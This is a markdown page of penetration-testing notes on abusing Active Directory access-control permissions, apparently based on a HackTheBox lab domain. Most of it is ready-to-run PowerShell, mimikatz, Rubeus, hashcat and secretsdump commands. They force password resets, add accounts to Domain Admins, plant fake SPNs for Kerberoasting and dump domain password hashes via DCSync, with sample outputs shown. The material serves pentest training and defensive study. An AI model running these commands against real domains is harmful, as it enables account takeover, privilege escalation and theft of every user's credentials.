

# 🛂  Access Control List (ACL)Abuse 

[See more about Access Control List](access-control-list.md).

During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 

Some example Active Directory object security permissions are as follows.

- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`

We can use ACL attacks for:

- Lateral movement
- Privilege escalation
- Persistence

## Enumerating ACLs 

### PowerView

```powershell
# First import PowerView module
Import-Module .\PowerView.ps1

# Now enumerate
Find-InterestingDomainAcl
```

Now, there is a way to use a tool such as PowerView more effectively -- by performing targeted enumeration starting with a user that we have control over. 

```powershell
# First import PowerView module
Import-Module .\PowerView.ps1

# Obtain the SID of the user you have control on, for instance wley, and set it to variable $sid
$sid = Convert-NameToSid wley

#  Find all domain objects that our user has rights over 
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
# -ResolveGUIDs: PowerView flag that will return the ObjectAceType property in a readable way and not as a GUID value that is not human readable.

# Lists of objects which you have Force-Change-Password right over. First, get your current user’s sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which you have _Force-Change-Password_.
get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[your_current_user_sid]") -and ($_.objectacetype -eq "User-Force-Change-Password")}

# Examine the rights that a user has over a group
$sid = Convert-NameToSid $userSamAccountName
Get-DomainObjectACL -Identity "$groupName" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}

# Examine the rights that a user has over another user
$sid = Convert-NameToSid $user1SamAccountName
Get-DomainObjectACL -Identity "$user2SamAccountName" -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```

Result:

```powershell
AceQualifier           : AccessAllowed
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114-1176
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-1181
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0
```

The ObjectAceType `User-Force-Change-Password` means that we have the right to modify `Dana Amundsen`'s password.

Without the PowerView flag `-ResolveGUIDs`, we would get `ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529`, the GUID. We can google and get to [this microsoft page](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password).  We can also perform a Reverse Search & Map to a GUID Value:

```powershell
$guid= "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```


### Powershell

```powershell
# Create a List of Domain Users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# For each user, use the Get-Acl cmdlet to retrieve ACL information of every user with the Get-ADUser cmdlet
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

# Once we have this data, we could follow the same methods shown above to convert the GUID to a human-readable format to understand what rights we have over the target user.
$guid= "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

```

### Bloodhound

See [bloodhound](bloodhound.md).

Steps: 

1.  Launch bloodhound. Update the zip/json files. 
2. Set a user  as the starting node, select the `Node Info` tab and scroll down to `Outbound Control Rights`.  
3. This option will show us objects we have control over directly, via group membership, and the number of objects that our user could lead to us controlling via ACL attack paths under `Transitive Object Control`.

By right-clicking on the line between  two objects, a menu will pop up.

## Abusing WriteOwner 

The **WriteOwner** permission allows users to change an object’s owner. Attackers can exploit this to gain control and perform malicious actions.

See more at [Windows - Abusing WriteOwner permission](windows-writeowner-permission.md).

## ForceChangePassword


This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.

### Change password (plaintext)
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```powershell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 

Set-DomainUserPassword -Identity $TargetUser -AccountPassword $NewPassword

runas /$TargetUser:[domain\$TargetUser] cmd.exe
```

We can also use mimikatz:

```powershell
.\mimikatz.exe
privilege::debug
lsadump::setntlm
```

### Change password using SecureString Object

```powershell
# Wley will change the password of damundsen. First, open Powershell as Wley
# Creating a PSCredential Object
$SecPassword = ConvertTo-SecureString '$wleyPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

# Creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
cd C:\Tools\
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Note: The **`SecureString` object** (`$SecPassword`) is associated with the **user `wley`** because it is used to create a **`PSCredential` object**, which represents a specific user's credentials. These credentials are used afterwards with the  `Set-DomainUserPassword` command, whereas the `-Credential` parameter ensures that all actions taken within that cmdlet use the privileges of the `wley` account.

##  AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

Let's imagine we have gained access to the user damundsen via the ForceChangePassword abuse. Now we can continue using PowerView to take this attack further:

```powershell
$sid2 = Convert-NameToSid damundsen

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

See the results:

```powershell
AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1176
AccessMask            : 131132
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

### GenericWrite


Our user damundsen has GenericWrite privileges over the `Help Desk Level 1` group. This means, among other things, that the attacker can add a user/group/computer to a group.

=== "Linux"

    ```bash
    # With net and cleartext credentials (will be prompted) 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST" 
    
    # With net and cleartext credentials 
    net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST" 
    
    # With Pass-the-Hash 
    pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
    ```

=== "Windows"

    ```powershell
    # Command line
	net group 'Help Desk Level 1' $user /add /domain 
	
	# Powershell: Active Directory module 
	Add-ADGroupMember -Identity 'Help Desk Level 1' -Members $user
	
	# Powershell: PowerSploit module 
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members $user
    
    ### "Windows with SecureString"
    ################
	# Creating a SecureString Object using damundsen
	$SecPassword = ConvertTo-SecureString '$damundsenPassword' -AsPlainText -Force
	$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
		
	# Add damundsen to the group
	Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
		
	# Confirming damundsen was Added to the Group
	Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName


### GenericAll


Investigating the Help Desk Level 1 Group with Get-DomainGroup: 

```powershell
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

# memberof                                                      #                 
# --------                                                      
# CN=Information Technology,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

The Help Desk Level 1 group is nested into the Information Technology group.  

Investigating the Information Technology Group

```powershell
$itgroupsid = Convert-NameToSid "Information Technology"

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

Results:
```powershell
AceType               : AccessAllowed
ObjectDN              : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-1164
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-4016
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

Members of the `Information Technology` group have `GenericAll` rights over the user `adunn`, which means we could:

1. Modify group membership
2. Force change a password
3. Perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak

#### 1. Modify group membership

In this case the user CT059 will be adding the user AB920 as Domain Admin

```powershell
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)

Import-Module .\PowerView.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'AB920' -Credential $Cred
```


#### 2. Kerberoasting attack 

```powershell
# Creating a SecureString Object using damundsen
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 

# Creating a Fake SPN
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

#  Kerberoasting with Rubeus
.\Rubeus.exe kerberoast /user:adunn /nowrap

# Crack it
hashcat -m 13100 $filename /usr/share/wordlists/rockyou.txt
```


Clean up:

```powershell
# 1. Removing the Fake SPN from adunn's Account
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# 2. Remove the damundsen user from the Help Desk Level 1 group
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
# Confirming damundsen was Removed from the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

## DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

**1.** Use Get-DomainUser to View the users's Group Membership:

```powershell
Get-DomainUser -Identity $userSamAccountName  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

**2.** Check if the user has replication rights:

```powershell
# we obtained the sid from previous command
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.


###  Linux:  Impacket’s secretsdump.py

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# -just-dc flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
# just-dc-user <USERNAME> to only extract data for a specific user
# -pwd-last-set to see when each account's password was last changed
# -history if we want to dump password history
# -user-status flag to check and see if a user is disabled. 

# This will generate 3 files with dumped secrets
```

Another example:

```
# This will use the preinstalled impacket version of our kali
secretsdump.py 'INLANEFREIGHT.LOCAL/$username:$password@$ipDC' -outfile  domainuser.txt
```


### Reversible Encryption Password Storage Set



When this option is set on a user account, the passwords are stored using RC4 encryption, the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent.

Enumerate accounts with reversible Encryption Password Storage Set with Active Directive cmdlet:

```powershell
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

Enumerate accounts with reversible Encryption Password Storage Set with PowerView:

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

To decrypt it we can use Impacket’s secretsdump.py:

```bash
secretsdump.py -outputfile $filename -just-dc $domain/$userSamAccountName@$ipDomainController
# As an example:
# secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

### Mimikatz

#### Way #1
Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
runas /netonly /user:$domain\$userSamAccountName powershell
# Example:
# runas /netonly /user:INLANEFREIGHT\adunn powershell
```

And now, from powershell:

```powershell
.\mimikatz.exe

#########
# mimikatz command
########

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

#### Way #2

If we have access to the host with an user who has DCSync privileges (DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege) on the domain, we can run from powershell the attack in one line:

```powershell
# From my Evil-WinRm Connection:
.\mimikatz.exe privilege::debug "lsadump::dcsync
/domain:$domain /user:Administrator" exit
```

